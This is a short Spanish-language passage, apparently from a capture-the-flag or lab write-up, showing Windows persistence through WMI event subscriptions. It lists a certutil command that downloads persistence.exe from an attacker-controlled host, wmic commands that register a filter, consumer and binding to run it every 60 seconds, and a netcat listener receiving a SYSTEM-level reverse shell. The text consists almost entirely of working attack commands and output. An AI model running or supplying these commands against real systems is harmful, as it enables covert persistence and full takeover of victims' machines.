 Desde la máquina víctima nos `descargamos` el `archivo` 

```
C:\Windows\Temp> certutil.exe -urlcache -split -f http://10.10.16.23/persistence.exe
```

Una vez dentro de la máquina `ejecutamos` estos `comandos`

```
C:\Windows\Temp> wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="shell", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
Instance creation successful.

C:\Windows\Temp> wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="shell", ExecutablePath="C:\Windows\Temp\persistence.exe",CommandLineTemplate="C:\Windows\Temp\persistence.exe"
Instance creation successful.

C:\Windows\Temp> wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE FIlter="__EventFilter.Name="shell"", Consumer="CommandLineEventConsumer.Name="shell"" 
Instance creation successful.
```

Nos ponemos en `escucha` y pasados `60 segundos` obtenemos la `shell`

```
# nc -nlvp 443     
listening on [any] 443 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.183.78] 49500
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
